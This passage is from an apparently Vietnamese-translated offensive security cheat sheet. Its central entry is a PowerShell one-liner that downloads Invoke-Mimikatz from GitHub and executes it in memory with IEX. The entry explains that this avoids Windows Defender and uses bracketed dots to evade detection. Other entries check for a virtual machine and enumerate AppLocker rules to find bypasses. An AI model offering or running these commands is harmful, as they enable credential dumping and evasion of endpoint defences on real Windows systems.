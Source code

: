 **Đóng góp:** Martin Sohn Christensen

**Liên kết:** [Blog](https://improsec.com/tech-blog/the-command-prompt-has-been-disabled-by-your-administrator-press-any-key-to-continue-or-use-these-weird-tricks-to-bypass-admins-will-hate-you)

### [🔙](#tool-list)Ngăn **Windows Defender** xóa **mimikatz.exe**

```bash
(new-object net.webclient).downloadstring('https://raw.githubusercontent[.]com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')|IEX;inv
```
**Lưu ý:** Đoạn mã **PowerShell** này tải xuống **script PowerShell Invoke-Mimikatz.ps1** trực tiếp từ GitHub (lưu ý thủ thuật thay thế `.` bằng `[.]` để né tránh các cơ chế phát hiện đơn giản) vào bộ nhớ và thực thi nó bằng `IEX` (Invoke-Expression), sau đó gọi hàm chính `inv` trong **script**. Việc này thực thi chức năng tương tự **mimikatz.exe** nhưng trong bộ nhớ, khó bị **Windows Defender** dựa trên chữ ký tệp phát hiện.

**Mô tả:** *'Bạn có chán ngán việc **Windows Defender** xóa **mimikatz.exe** không? Hãy thử cách này thay thế.'*

**Đóng góp:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)

**Liên kết:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1605629049660809216)

### [🔙](#tool-list)Kiểm tra xem bạn có đang ở trong **máy ảo** không

```bash
reg query HKLM\SYSTEM /s | findstr /S "VirtualBox VBOX VMWare"
```
**Lưu ý:** Lệnh này sử dụng tiện ích **Windows** `reg query` để tìm kiếm đệ quy (sử dụng `/s`) trong khóa registry `HKLM\SYSTEM`. Kết quả đầu ra sau đó được lọc bằng `findstr` để tìm các chuỗi như "VirtualBox", "VBOX", hoặc "VMWare", là các dấu hiệu cho thấy hệ thống đang chạy trong một **máy ảo** phổ biến.

**Mô tả:** *'Bạn muốn biết mình có đang ở trong **Máy ảo** không? Truy vấn các khóa registry và tìm hiểu!!! Nếu có bất kỳ kết quả nào xuất hiện thì bạn đang ở trong **Máy ảo**.'*

**Đóng góp:** [@dmcxblue](https://twitter.com/dmcxblue)

**Liên kết:** [Twitter](https://twitter.com/dmcxblue/status/1366779034672136194)

### [🔙](#tool-list)Liệt kê quy tắc **AppLocker**

```
(Get-AppLockerPolicy -Local).RuleCollections

Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
```
**Lưu ý:** Các lệnh này giúp liệt kê cấu hình **AppLocker** trên hệ thống **Windows**.
`Get-AppLockerPolicy` (PowerShell) lấy policy AppLocker đang hoạt động.
`Get-ChildItem` (PowerShell) và `reg query` (CMD) kiểm tra trực tiếp các khóa registry nơi **AppLocker** lưu trữ quy tắc của nó. Hiểu các quy tắc này giúp kẻ tấn công tìm các binary hoặc **script** được phép thực thi hoặc các kỹ thuật bypass.
